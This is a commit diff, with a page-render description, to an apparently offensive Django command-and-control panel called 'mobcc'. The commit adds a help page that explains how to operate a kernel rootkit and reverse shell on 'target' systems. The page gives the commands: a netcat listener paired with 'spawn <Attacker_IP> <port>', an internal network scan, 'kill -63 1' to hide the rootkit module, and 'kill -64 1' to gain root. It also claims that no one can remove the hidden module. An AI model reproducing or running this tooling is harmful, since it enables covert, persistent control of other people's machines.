
After one commit to shv-om/mobcc, a Django app: page /help/ in a window 1280 px wide. The commit adds this page. Shown: the top 597 px of the page. Run offline with Django 4.2, Linux system fonts and the light colour scheme.

Commit message:
Update reverse shell and C2 server templates.

```diff
--- a/mobserver/mob_client.py
+++ b/mobserver/mob_client.py
@@ -23,6 +23,7 @@ def get_system_name():
 # Usage
 system_name = get_system_name()
 print(f"System name: {system_name}")
+
 c2_ip = '0.0.0.0'
 c2_port = '8000'
 add_device_url = f'http://{c2_ip}:{c2_port}/add_device/'
--- a/mobserver/mobcc/urls.py
+++ b/mobserver/mobcc/urls.py
@@ -6,4 +6,5 @@ urlpatterns = [
     path('add_device/', views.add_device_view, name='add_device'),
     path('send_command/<int:device_id>/', views.send_command_view, name='send_command'),
     path('commands_list/', views.commands_list, name='commands_list'),
+    path('help/', views.help_view, name='help'),
 ]
--- a/mobserver/mobcc/views.py
+++ b/mobserver/mobcc/views.py
@@ -8,6 +8,26 @@ from .forms import AddDeviceForm, SendCommandForm
 import requests
 
 
+def help_view(request):
+    return render(request, 'help.html', {})
+
+
+def home_view(request):
+    devices = Device.objects.all()
+    if request.method == 'POST':
+        device_id = request.POST.get('device')
+        return redirect('send_command', device_id=device_id)
+    context = {
+        'devices': devices,
+    }
+    return render(request, 'home.html', context)
+
+
+def commands_list(request):
+    commands = Command.objects.all()
+    return render(request, 'command_list.html', {'commands': commands})
+
+
 def get_client_ip(request):
     x_forwarded_for = request.META.get('HTTP_X_FORWARDED_FOR')
     if x_forwarded_for:
@@ -15,6 +35,7 @@ def get_client_ip(request):
     else:
         ip = request.META.get('REMOTE_ADDR')
     return ip
+
 
 @csrf_exempt
 def add_device_view(request):
@@ -29,22 +50,6 @@ def add_device_view(request):
         form = AddDeviceForm()
     context = {'form': form}
     return render(request, 'add_device.html', context)
-
-
-def commands_list(request):
-    commands = Command.objects.all()
-    return render(request, 'command_list.html', {'commands': commands})
-
-
-def home_view(request):
-    devices = Device.objects.all()
-    if request.method == 'POST':
-        device_id = request.POST.get('device')
-        return redirect('send_command', device_id=device_id)
-    context = {
-        'devices': devices,
-    }
-    return render(request, 'home.html', context)
 
 
 def send_command_view(request, device_id):
--- a/mobserver/templates/add_device.html
+++ b/mobserver/templates/add_device.html
@@ -1,7 +1,7 @@
 {% extends "base.html" %}
 
 {% block content %}
-  <div style="padding:3rem;">
+  <div class="p-5">
     <h1>Add a New Device</h1>
   </div>
 
--- a/mobserver/templates/base.html
+++ b/mobserver/templates/base.html
@@ -1,5 +1,5 @@
 <!doctype html>
-<html lang="en">
+<html lang="en" data-bs-theme="dark">
   <head>
     <meta charset="utf-8">
     <meta name="viewport" content="width=device-width, initial-scale=1">
@@ -25,6 +25,9 @@
                 <a class="nav-link active" aria-current="page" href="{% url 'home' %}">Home</a>
               </li>
               <li class="nav-item">
+                <a class="nav-link active" aria-current="page" href="{% url 'help' %}">Help</a>
+              </li>
+              <li class="nav-item">
                 <a class="nav-link active" aria-current="page" href="{% url 'add_device' %}">Add device</a>
               </li>
               <li class="nav-item">
--- /dev/null
+++ b/mobserver/templates/help.html
@@ -0,0 +1,38 @@
+{% extends 'base.html' %}
+
+{% block content %}
+
+<div class="p-5">
+  <h1 class="text-center">Mob CC</h1>
+</div>
+
+<div class="row">
+  <div class="col-md-7">
+    <h3>Steps:</h3>
+    <ol class="text-start">
+      <li>Add Devices using the below link. (If you are using the kernel module then this step will be automatically done by that.)</li>
+      <li>Select the added Device and start sending commands to the target system.</li>
+      <li>As you may directly get root access but incase you don't get root access then check commands to gain root privilege.</li>
+      <li>You can also spawn a new shell and transfer it to any other attacking system by giving the IP of the attacking system.</li>
+    </ol>
+
+    <h3>Note:</h3>
+    <ul class="text-start">
+      <li>Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.</li>
+      <li>No one can remove the module if it's hidden.</li>
+    </ul>
+  </div>
+
+  <div class="col-md-5">
+    <h3>Help:</h3>
+    <ul class="text-start">
+      <li>To spawn a new shell from different device. eg: </br> <span style="padding: 1.7rem">Attacker side</span> | <span style="padding: 1.7rem;">Command</span><pre>'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'</pre></li>
+      <li>To scan the internal network from the target system. <pre>'scan'</pre></li>
+      <li>To kill the connection (reverse shell process) type. <pre>'kill -9 &lt;pid&gt;'</pre></li>
+      <li>To toggle between hide and show the kernel module. <pre>'kill -63 1'</pre></li>
+      <li>To gain root privilege in the target machine from any other attacking machine using reverse shell like above. <pre>'kill -64 1'</pre></li>
+    </ul>
+  </div>
+
+</div>
+{% endblock %}
```
Also changed, not shown: mobserver/templates/home.html (+4 -4 lines), mobserver/templates/send_commands.html (+1 -29 lines).
